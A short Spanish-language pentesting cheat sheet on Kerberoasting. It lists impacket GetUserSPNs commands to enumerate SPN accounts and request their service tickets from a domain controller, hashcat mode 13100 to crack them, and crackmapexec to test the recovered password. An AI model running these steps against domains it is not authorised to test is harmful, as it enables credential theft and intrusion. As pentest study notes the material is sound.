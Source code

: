Para esto podemos usar el módulo de impacket.

Debemos utilizarlo contra un DC y necesitamos tener credenciales de un usuario (en texto plano o en NTLM), una shell en contexto de un usuario de dominio o una cuenta de system.

Listar los usuarios con SPN

    sudo impacket-GetUserSPNs -dc-ip <dc_ip> <dominio>/<user>

Pedir tickets para todos los usuarios:

    sudo impacket-GetUserSPNs -dc-ip <ip_dc> <dominio>/<user>:'pass' -request

Pedir tickets para un usuario puntual:

    sudo impacket-GetUserSPNs -dc-ip <ip_dc> <dominio>/<user> -request-user <user_victima> -outputfile <file_de_guardado>  (es importante generar el export así luego podemos crackear el archivo)


Una vez tenemos el hash podemos crackearlo con hashcat 13100

y luego podemos probar conectarnos:

    sudo crackmapexec smb <dc_ip> -u <user> -p <pass>


